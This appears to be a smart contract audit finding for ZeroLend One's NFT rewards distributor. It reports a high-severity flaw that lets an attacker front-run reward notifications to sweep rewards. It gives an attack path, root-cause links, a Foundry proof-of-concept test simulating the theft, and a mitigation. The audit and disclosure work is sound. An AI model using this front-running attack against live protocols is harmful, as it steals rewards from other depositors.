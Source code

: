 Deep Yellow Tiger

High

# Anyone can supply pool, in order to sweep rewards by front-running rewards distribution.

### Summary

This is a well know attack vector where malicious EOAs can make profit on stepwise jump in price or assets amounts in general (rewards in our case).

The update of rewards for all NFT positions distributed in pools by `_assetHash` do not account for the time that a position is being active with arbitrary amount of assets in a given pool.

### Root Cause

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTRewardsDistributor.sol#L125

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTRewardsDistributor.sol#L151-L158

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Supply pool with a given asset.
2. Monitor the mempool for `notifyRewardAmount` function call.
3. Frontrun the above mentioned function call. By calling supply to the given pool.
4. Withdraw the amount from the pool + reward.

### Impact

While the existence of the `rewardDuration` prevented the usage of flashloan/borrow, it's still possible for the attackers with sufficient funds or can acquire sufficient funds in other ways to pull the attack.

In which case, the attack is quite practical and effectively steal the major part of the newly added rewards without any losses.

### PoC

Make sure the following changes are being applied. (Easing the test):

**`INFTPositionManager.sol`**:
```diff
-  function initialize(address _factory, address _staking, address _owner, address _zero,
address
_weth) external;

+  function initialize(address _factory, address _staking, address _owner, address _rewardsAllocator, address _zero,
address
_weth) external;
```

**`NFTPositionManager.sol`**:
```diff
-  function initialize(address _factory, address _staking, address _owner, address _zero, address _weth)
+ function initialize(address _factory, address _staking, address _owner, address _rewardsAllocator, address _zero, address _weth)
external initializer {
    __ERC721Enumerable_init();
    __ERC721_init('ZeroLend One Position', 'ZL-POS-ONE');
    __AccessControlEnumerable_init();
    __NFTRewardsDistributor_init(50_000_000, _staking, 14 days, _zero);
    __ReentrancyGuard_init();
    __Multicall_init();

    _grantRole(DEFAULT_ADMIN_ROLE, _owner);
+    _grantRole(REWARDS_ALLOCATOR_ROLE, _rewardsAllocator);

    factory = IPoolFactory(_factory);
    weth = IWETH(_weth);
    _nextId = 1;
  }
```

**`DeployNFTPositionManager.sol`**:
```diff
abstract contract DeployNFTPositionManager is PoolSetup {
  NFTPositionManager nftPositionManager;
+  TransparentUpgradeableProxy proxy;

  address admin = makeAddr('ProxyAdmin');
+  address rewardsAllocator = makeAddr('RewardsAllocator');

  function _setup() public {
    NFTPositionManager _nftPositionManager = new NFTPositionManager();
-    TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(address(_nftPositionManager), admin, bytes(''));
+    proxy = new TransparentUpgradeableProxy(address(_nftPositionManager), admin, bytes(''));
    nftPositionManager = NFTPositionManager(payable(address(proxy)));
-    nftPositionManager.initialize(address(poolFactory), address(0), owner, address(0), address
    (wethToken));
+    nftPositionManager.initialize(address(poolFactory), address(0), owner, rewardsAllocator, address(0), address
    (wethToken));
  }
}

```



Add the test to `NFTPositionManagerTest.t.sol`
```solidity
  // Import for the console logs
  import '../../../../lib/forge-std/src/console.sol';

  address johnny = address(0x1234);

  function setUp() public {
    _setUpPool();
    _setup();

    address deployer = address(this);

    // Just some arbitrary amounts making sure our transaction will go through.
    tokenA.mint(deployer, 1_000_000 ether);
    tokenA.mint(rewardsAllocator, 500_000_000 ether);
  }

  function test_notifyRewardAmount_Inflation_Attack() external {
    nftPositionManager.setRewardToken(address(tokenA));
    testShouldSupply(alice, 50 ether, 1);
    testShouldSupply(johnny, 50 ether, 2);

    uint256 reward = 0.5 ether;
    uint256 rewardsDuration = 14 * 24 * 60 * 60; // 14 days = 1,209,600 seconds

    console.log("Balance init manager: ", tokenA.balanceOf(address(nftPositionManager)));
    console.logBytes32(keccak256(abi.encode(address(pool), address(tokenA), false)));

    // Just skip some time mocking that alice and attacker have been supplying more time
    skip(block.timestamp + rewardsDuration - 2000);

    vm.prank(rewardsAllocator);
    tokenA.approve(address(nftPositionManager), type(uint256).max);

    uint256 contractBalance = tokenA.balanceOf(address(proxy));
    uint256 allowance = tokenA.allowance(rewardsAllocator, address(nftPositionManager));

    // Bob supplies just before the rewards are notified
    // NOTE: The amount is not important, just the fact that bob supplies is important
    testShouldSupply(bob, 65 ether, 3);

    vm.startPrank(rewardsAllocator);
    tokenA.approve(address(proxy), type(uint256).max);
    nftPositionManager.notifyRewardAmount(reward, address(pool), address(tokenA), false);
    vm.stopPrank();

    // Every body can withdraw their rewards right after the `notifyRewardAmount` call.
    skip(block.timestamp + rewardsDuration + 1);

    nftPositionManager.getReward(1, keccak256(abi.encode(address(pool), address(tokenA), false)));
    nftPositionManager.getReward(2, keccak256(abi.encode(address(pool), address(tokenA), false)));

    // Bob withdraws the supplied funds + rewards
    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params =
              INFTPositionManager.AssetOperationParams(address(tokenA), bob, 65 ether, 3, data);
    vm.startPrank(bob);
    vm.expectEmit(true, true, true, true);
    emit NFTEventsLib.Withdraw(address(tokenA), 65 ether, 3);
    nftPositionManager.withdraw(params);
    nftPositionManager.getReward(3, keccak256(abi.encode(address(pool), address(tokenA), false)));
    vm.stopPrank();

    console.log("Balance Alice: ", tokenA.balanceOf(alice));
    console.log("Balance Johnny: ", tokenA.balanceOf(johnny));
    console.log("Balance Bob: ", tokenA.balanceOf(bob));

    console.log("Balance Pool: ", tokenA.balanceOf(address(pool)));
    console.log("Balance Manager: ", tokenA.balanceOf(address(nftPositionManager)));
  }
  
  function testShouldSupply(address _nftOwner, uint256 _amount, uint256 _tokenId) public {
    uint256 mintAmount = _amount;
    uint256 supplyAmount = _amount;

    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params =
              INFTPositionManager.AssetOperationParams(address(tokenA), _nftOwner, supplyAmount, _tokenId, data);

    _mintAndApprove(_nftOwner, tokenA, mintAmount, address(nftPositionManager));

    vm.startPrank(_nftOwner);
    nftPositionManager.mint(address(pool));
    vm.expectEmit(true, true, true, true);
    emit NFTEventsLib.Supply(address(tokenA), _tokenId, supplyAmount);
    nftPositionManager.supply(params);

    INFTPositionManager.Position memory position = nftPositionManager.positions(_tokenId);

    assertEq(position.pool, address(pool));
    assertEq(position.operator, address(0));

    vm.stopPrank();
  }
  ```

### Mitigation

Consider adding some type of time weight multiplier for rewards or `RewardRate` + gradual release of them.